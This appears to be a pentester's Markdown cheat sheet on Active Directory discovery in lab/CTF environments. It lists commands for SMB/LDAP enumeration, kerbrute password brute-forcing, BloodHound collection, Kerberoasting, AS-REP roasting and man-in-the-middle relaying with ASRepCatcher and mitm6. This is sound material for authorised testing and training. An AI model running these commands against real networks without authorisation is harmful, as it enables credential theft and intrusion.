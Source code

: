 ```yaml
---
title: "Discovery"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## No Credentials:

- **Nmap** :
```shell
nmap -Pn -sC -sV $t 
nmap -Pn -sC -sV -p- $t #full
```
`Rustcan` 

```shell
sudo nmap -sU -sC -sV $t
```

- **SMB  :** 
```shell
nmap -Pn --script "smb-vuln*" -p139,445 $t #search smb vuln
```

```shell
netexec smb 10.10.65.99 -u "Guest" -p "" --shares

netexec smb 10.10.65.99 -u user.txt -p user.txt --no-bruteforce --continue-on-success

nxc smb $t -u UserNAme -p 'PASSWORDHERE' --rid-brute

proxychains -q nxc smb 10.10.231.69 -u SVC_WEB_STAGING -d REFLECTION -p "" --rid-brute | grep '\\' | cut -d $'\\' -f2 | cut -d ' ' -f1 | tee -a users_rid.txt

```

- Same:
```sh
lookupsid.py sendai.vl/Guest@$t
```

- **LDAP Search:**
```sh
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```

```sh
ldapsearch -x -b "dc=baby2,dc=vl" -H ldap://10.10.119.153 '(ObjectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
```

```sh
ldapsearch -x -b "dc=baby2,dc=vl" -H ldap://10.10.119.153 | grep -i -a 'Service Accounts'
```

- **RPCClient :**

```sh
rpcclient -U=" " -N <dc-ip>
```

- **Kerbrute :**
```sh
kerbrute userenum --dc 10.10.11.129 -d search.htb /usr/share/wordlists/seclists/

kerbrute bruteuser --domain baby2.vl --dc $t /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt gpoadm -v

#Bruteforce
```

- **Enum4Linux :**
```sh
enum4linux-ng -A iP
```

**Windapsearch :**
```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -U | tee windapsearch-enumeration-users
```

## With Credentials:

- **SMB  :**
```sh
smbclient //10.10.196.22/SYSVOL -U library
smbclient \\\\$t\\SYSVOL -U baby2/library
smbclient.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
smbclientng -u "" -p "" --host "ip" -d "domain.local
```

```sh
netexec smb $t2 -u 'rsmith' -p 'IHateEric2' --shares
netexec smb $t -u users.txt -p "" --no-bruteforce --continue-on-success
#Null credential can reveal interesting path
```

```sh
samrdump.py <domain>/<username>:<password>@<target_IP>
```

```sh
smbmap -H IP -d <domainname> -u <username> -p <password>
```

- On windows :
```sh
net view \\dc01 /all
```

- **LDAP Search:**

```sh
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

```sh
ldapsearch -H ldap://search.htb -x -D 'username@search.htb' -w "passwords" -b "DC=search,DC=htb" "objectclass=user" sAMAccountName | grep sAMAccountName | awk -F":" '{print $2}'
```

```sh
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
nxc ldap $t -k -u users.txt -p 'Cicada123' --kdcHost DC-JPQ225.cicada.vl
```

- **Bloodhound :**
```sh
bloodhound-python -d 'LAB.TRUSTED.VL' -u 'rsmith' -p 'IHateEric2' -ns 10.10.245.166 -dc labdc.LAB.TRUSTED.VL -c all
nxc ldap 10.10.202.37 -u Rhys.Garner -p knh1gJ8Xmeq+uP --bloodhound --collection All -ns 10.10.202.37
```
OR
```sh
./SharpHound.exe --CollectionMethods All
Invoke-BloodHound -CollectionMethod All
```

- **RPCClient :**
```sh
rpcclient -U="username" <dc-ip>
```

**Enum4Linux :**
```sh
enum4linux -u username -p password -A <IP>
enum4linux -u username -p password -U <IP>
```

**GetADUsers.py :**
```sh
GetADUsers.py -all pentesting.local/ippsec:Password12345 -dc-ip 192.168.10.50
```

**Kerberoasting:**

```sh
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t -request
```

```sh
findDelegation.py -dc-ip 192.168.1.50 pentesting.local/ippsec:Password12345
```

**Windapsearch :**
```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" -U | tee winapsearch-authenticated-enumerations
```

```sh
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" -G | tee winapsearch-authentication-group-enumerations
```

```sh 
windapsearch -d <Domain Name> --dc-ip <Domain Controller IP> -u "domain\\username" -p "password" --unconstrained-computers | tee unconstrained-computers-enumeration
```

**Ldapdomaindump:**
```sh
ldapdomaindump --user "delegate.vl"\\"N.Thompson" --password "KALEB_2341" --outdir ldapdomaindump "DC1.delegate.vl"
```

## Only Username
- Impacket :
```sh
GetNPUsers.py bruno.vl/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```

```sh
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

- Netexec : 
```sh
netexec smb $t -u users.txt -p "" --no-bruteforce --continue-on-success
```

- Discover windows : 
```sh
RunFinger.py -i 10.10.120.0/24
```

- Discover machine
```sh
mitm6 --interface "eth0"
```

- Read Users descriptions :
```sh
nxc smb 192.168.250.170 -u 'joker' -p '<3batman0893' --users
```

- Discovering Pre-Created-computers : 
```sh
pre2k auth -u Bank -p 'Password' -d lan.vl -dc-ip 10.10.10.10 -verbose
```
`Must check with your own script `
